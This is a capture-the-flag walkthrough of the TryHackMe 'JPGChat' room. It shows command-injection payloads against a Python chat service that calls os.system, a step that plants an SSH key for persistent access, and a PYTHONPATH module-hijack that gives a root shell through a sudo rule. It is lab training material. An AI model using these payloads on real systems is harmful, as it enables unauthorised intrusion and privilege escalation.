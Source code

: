 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . JPGChat
# DESCRIPTION       . Exploiting poorly made custom chatting service written in a certain language...
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/jpgchat
```

```
sudo nmap -sSVC -T5 -p- 10.10.5.191 -oN jpgchat
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=2/24%Time=65DA2F8B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x20
SF:service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSAG
SF:E\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(currentl
SF:y\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x20
SF:report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Gen
SF:ericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20t
SF:his\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\
SF:nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(c
SF:urrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x2
SF:0to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
```

#### PORT 3000

```
nc 10.10.5.191 3000
```

```
the source code of this service can be found at our admin's github
```

- After googling "jpgchat github" I end up [here](https://github.com/Mozzie-jpg/JPChat).

- Here's the source code.

```
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

- We see that in `report_form` both our name and our message are used alongsisde `bash -c`, thus allowing for command injection.

- This can be bypassed with `; [command #`.
- `;` is used to mark the end of `echo` and the start of the next command.
- then, `#` is used to skip writing to the file and instead executing the command. 

```
your name:
; ls #
your report:
; ls #

bin
boot
box_setup
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
vagrant
var
vmlinuz
vmlinuz.old
```

- I used the `ls` command multiple times and found out the `user.txt` flag in `/home/wes`. 
- We can grab it by using `; cat /home/wes/user.txt #`. 

- We could execute a reverse shell ... but I'm tired of this approach.

- Since SSH is enabled, I've decided to create a pair of SSH keys and place the public one on the server.

- I've used `; mkdir /home/wes/.ssh` to create the `.ssh` directory for wes.  
- On my host, I've generated a public:private key pair using `ssh-keygen`.

- I've placed the content of the public key in the `.ssh/authorized_keys` file (which will be created in the next command too).

```
; echo "ssh-rsaAAAAB3NzaC1yVXN9mRL993h7EopC{TRIMMED DOWN FOR READABILITY}rbd++9ovE=" > /home/wes/.ssh/authorized_keys #
```

- Then, from my host I've connected over with SSH.

```
ssh -i private_key wes@IP
```

```
ssh -i a wes@10.10.5.191

The authenticity of host '10.10.5.191 (10.10.5.191)' can't be established.
ED25519 key fingerprint is SHA256:kVofZUap+iF3U0N/x8eQa5Yvpx+y0z+oqFNIQFwNCOg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.10.5.191' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-197-generic x86_64)
```

#### PRIVILEGE ESCALATION

- After my checks for privilege escalation, I found the following 3 pieces of information that we need to link together to escalate privileges.

```
sudo -l
(root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

```
ls -l /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15  2021 /opt/development/test_module.py
```

```
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

- So, we can run `/opt/development/test_module.py` as root.
- The script is not writable by us but is executed by root.
- What we care about is that the script imports a module.

- We can create another `compare.py` in our home directory with the following code

```
import pty
pty.spawn("/bin/bash")
exit()
```

- Then, update the ENV variable so we force python to load our `compare.py`.

```
export PYTHONPATH=.
```

- Then, just execute the script with sudo.

```
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py 
```

- The last flag is located in `/root/root.txt`.
	

